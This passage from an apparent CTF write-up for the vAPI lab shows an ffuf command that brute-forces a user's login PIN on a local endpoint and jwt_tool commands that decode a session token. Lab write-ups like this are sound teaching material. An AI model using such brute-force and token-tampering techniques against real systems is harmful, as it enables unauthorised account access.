 I ran these both at the same time, which were both fairly quick as I have Burp Suite Pro, but this may help folks who are only using Community to speed things up a little.

`ffuf -w ./vapi/resources/numbers.txt -X POST -d '{"username":"richardbranson","pin":"FUZZ"}' -H "Content-Type: application/json" -u http://127.0.0.1:80//api9/v1/user/login -fs 0`

![FFUF](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/573202d1-5b24-42fd-bdf5-a01d853faafe)

## **API10 - Security Logging and Monitoring Failures / Logging and Monitoring** 🛠️

Now termed "Security Logging and Monitoring Failures" in the OWASP Top 10 for API's 2023.

🤷 ..

![API10 Flag](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/db218b5b-4809-4251-a90d-36975530af1b)

## **Arena Bonuses** 🐣

Checkout the Postman collection folder called 'Arena' which gives us another three little easter eggs:

![ARENA BONUS FLAGS](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/010f9452-2a32-4766-952e-bb508c8c726e)

## **JustWeakToken**

The initial REST API endpoint in our Postman collection is a `POST` request to "`/jwt/user`:

From the application verifying username and password from the encrypted ciphertext within the `HTTP BODY`, the server generates a "JOT" token which is presumably used as a bearer token for authentication:

![JWT1](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/c50f0a35-b7f4-4924-8540-2b9fffb4ecca)

I chose to inspect the JWT using the [jwt_tool](https://github.com/ticarpi/jwt_tool). There are a bunch of UI's you can use such as [JWT.io](https://jwt.io/), but this is much more fun.

Inspect the JWT token:

`python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJ2YXBpIiwiYXVkIjoidmFwaSIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjkyNzU5NzM5LCJleHAiOjE2OTI3NjE1Mzl9.AWyVpwnO7MC2AEDJGmY7EanrLmIZXlj5_F3HBzWA46M -T -V`

`python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJ2YXBpIiwiYXVkIjoidmFwaSIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjkyNzU5NzM5LCJleHAiOjE2OTI3NjE1Mzl9.AWyVpwnO7MC2AEDJGmY7EanrLmIZXlj5_F3HBzWA46M`

![JWT2](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/c03c0497-cc1e-47b4-9b9f-6f3b49ec02fa)
![JWT3](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/126e9adc-97ed-4854-b4ba-3f113ca5f9a9)

This JWT is added into subsequent bodies of other requests such as a `GET` to the `/vapi/jwt/user` API endpoint:
